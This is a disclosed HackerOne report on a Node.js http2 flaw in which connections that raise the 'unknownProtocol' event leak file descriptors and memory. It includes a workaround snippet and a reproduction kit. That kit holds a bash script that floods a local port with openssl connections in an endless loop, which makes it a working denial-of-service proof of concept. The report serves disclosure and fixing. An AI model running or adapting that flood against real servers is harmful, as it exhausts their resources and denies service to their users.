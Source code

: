 # HTTP2 'unknownProtocol' cause Denial of Service by resource exhaustion

## Report Details
- **Report ID**: 1043360
- **URL**: https://hackerone.com/reports/1043360
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-11-25T11:06:27.818Z
- **Disclosed**: 2021-03-15T08:25:43.492Z

## Reporter
- **Username**: omicronenergy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:** 
Node.js http2 server is vulnerable against denial of service attacks when too many connection attempts with an 'unknownProtocol' are established. This leads to a leak of file descriptors. If a file descriptor limit is configured on the system, then the server is unable to accept new connections and prevent the process also from opening, e.g. a file. If no file descriptor limit is configured, then this lead to an excessive memory usage and cause the system to run out of memory.

**Description:**
If an attacker can establish an arbitrary amount of connections to the server and achieves that no session is instantiated by sending data causing the `unknownProtocol` event, then the socket is immediately closed by returning an error message.

If the attacker closes the socket before this can happen or simply do not respond to the response, the node process starts leaking file descriptors and the memory consumption increases dramatically. Node will wait for the response to the `unknownProtocol` message, which will never come.

To solve this issue we registered to the `unknownProtocol` event and had to implement two things:

1. Call `socket.end()` without returning data, which seems to solve the problem partially. The amount of leaked file descriptors decreased dramatically but it is still leaking.
2. Starting a timer and force a `socket.destroy()` after the timeout.

Our current workaround for the problem looks like this:

```
server.on('unknownProtocol', socket => {
  // Install a timeout of 10 second if the socket was
  // not successfully closed, then destroy the socket
  // to ensure that the underlying resources are released.
  const timer = setTimeout(() => {
    if (!socket.destroyed) {
      socket.destroy();
    }
  }, 10000);
  // Un-reference the timer to avoid blocking
  // of application shutdown and clear the timeout
  // if the socket was successfully closed.
  timer.unref();

  // ATTENTION: Do not use the cb from the end call,
  // because this also causes leaks!
  socket.once('close', () => clearTimeout(timer));

  // Try to gracefully close the socket
  // ATTENTION: The default implementation provides an error
  // message to the client, but if the client does not respond
  // this causes the graceful close to fail. Therefore the
  // socket is closed here without any message.
  socket.end();
});
```

Once the node process reached the file descriptor limit of the system it is not possible to establish any new connection to the server. Next the process cannot not do any other operations that require a new file descriptor (e.g. opening a file). If the system has no file descriptor limit, then the process will continue consuming memory until the system has none left.

## Steps To Reproduce:

The following steps assume you are on a linux system. Everything will run on your host system. The IP in the client is hard-coded to `127.0.0.1` and the port is `50000`. The scripts are kept as simple as possible. 

1. Create a file `client.sh` with the content provided in the Supporting Material section below (don't start it now)
2. Create the Javascript file (see Supporting Material section below) and run the example server (may you want to customize the port). You can also start a non-secure server using `createServer()` if you don't have an example key or cert around.
3. You query the file descriptors with the command provided in the Supporting Material section below. Simply replace `{PID}` with the process id of your node server.
4. Maybe you also want to watch the memory consumption with the tool you prefer.
5. Now you are ready to start the client script.

We initially found this issue by running the Greenbone Vulnerability Manager on our server port with the **OvenVAS default** scanner, the **Fast and ultimate** configuration with all kind of vulnerability tests enabled and the **TCP-SYN Service Ping** alive check.

The affected code that causes this issue seems to be [here](https://github.com/nodejs/node/blob/c0ac692ba786f235f9a4938f52eede751a6a73c9/lib/internal/http2/core.js#L2918-L2929).

We are running on Linux x86 with kernel v4.19.148 with node v12.19.0.

## Impact:
Any code that relies on the http2 server is affected by this behaviour. For example the JavaScript implementation of GRPC also uses a http2 server under the hood.

This attack has very low complexity and can easily trigger a DOS on an unprotected server.

The above server example consumes about 6MB memory after start-up. Running the described attack causes a memory consumption of more than 400MB in approximately 30s and holding more than 7000 file descriptors. Both, the file descriptors and the memory, are never freed.

## Supporting Material/References:

client.sh
```
#!/bin/bash

request="GET / HTTP/1.1 Host: Anything"

while true;
do
    echo $request | openssl s_client -connect 127.0.0.1:50000 > /dev/null 2>&1 &
done
```

Javascript File
```
const http2 = require("http2");
const fs = require("fs");

const port = 50000;

process.on('uncaughtException', error => {
  console.log('An uncaught exception occurred:', error)
});

process.on('unhandledRejection', reason => {
  console.log('An unhandled rejection occurred:', reason)
});

process.on('warning', warning => {
  console.log('A process warning occurred:', warning)
});

function onRequest(req, res) {
  console.log('got request')
}

const serverOptions = {
  key: fs.readFileSync(__dirname + "/key.crt"),
  cert: fs.readFileSync(__dirname + "/cert.crt")
};

http2
  .createSecureServer(serverOptions, onRequest)
  .listen(port, () => {
    console.log("http2 server started on port", port);
  })
  .on('error', (err) => console.log(err))
```
Query file descriptors command
```
ls -l /proc/{PID}/fd | wc -l && ls -l /proc/{PID}/map_files | wc -l
```


If you need anything else let us know.

## Impact

Any code that relies on the http2 server is affected by this behaviour. For example the JavaScript implementation of GRPC also uses a http2 server under the hood.

This attack has very low complexity and can easily trigger a DOS on an unprotected server.

The above server example consumes about 6MB memory after start-up. Running the described attack causes a memory consumption of more than 400MB in approximately 30s and holding more than 7000 file descriptors. Both, the file descriptors and the memory, are never freed.

## Attachments
No attachments
